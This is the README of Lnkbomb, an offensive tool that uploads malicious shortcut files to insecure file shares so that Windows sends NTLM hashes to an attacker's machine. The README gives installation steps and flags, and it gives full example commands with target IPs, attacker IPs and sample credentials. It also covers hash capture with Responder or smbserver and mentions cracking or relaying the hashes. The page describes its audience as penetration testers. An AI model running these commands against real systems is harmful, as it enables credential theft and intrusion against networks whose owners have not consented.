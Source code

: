 # Lnkbomb
Malicious shortcut generator for collecting NTLM hashes from insecure file shares. 

Lnkbomb is used for uploading malicious shortcut files to insecure file shares. The vulnerability exists due to Windows looking for an icon file to associate with the shortcut file. This icon file can be directed to a penetration tester's machine running Responder or smbserver to gather NTLMv1 or NTLMv2 hashes (depending on configuration of the victim host machine). The tester can then attempt to crack those collected hashes offline with a tool like Hashcat, or relay them to a tool like ntlmrelayx for further exploitation.

The payload file is uploaded directly to the insecure file specified by the tester in the command line. The tester includes their IP address as well, which is written into the payload.

Version 2.0 is a total rebuild of the tool and uses the pysmb library, permitting unauthenticated and authenticated payload drops.
Python Usage

Installing Lnkbomb

Note that the project works consistently in Windows. It may have issues in Linux.

git clone https://github.com/dievus/lnkbomb.git

Change directories to lnkbomb and run:

python3 lnkbomb.py -h

This will output the help menu, which contains the following flags:

-h, --help - Lists the help options

-t, --target - Specifies the target IP address

-a, --attacker - Specifies the tester's attack machine IP address

-r, --recover - Used to remove the payload when testing is completed (ex. -r payloadname.url)

-w, --windows - New command - required for setting appropriate ports for Windows shares

-l, --linux - New command - required for setting appropriate ports for Linux shares

-n, --netbios - New command - netbios name for targeted Windows machines must be included

Examples of full commands include:

python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows

python3 .\lnkbomb.py -t 192.168.1.79 -a 192.168.1.21 -s Shared -u themayor -p Password123! -n dc01 --windows -r dicnwdsebl.url

You will need to utilize a tool like Responder or smbserver to capture the NTLM hash.
responder -I eth0 -dwFP -v

or

smbserver.py . . -smb2support
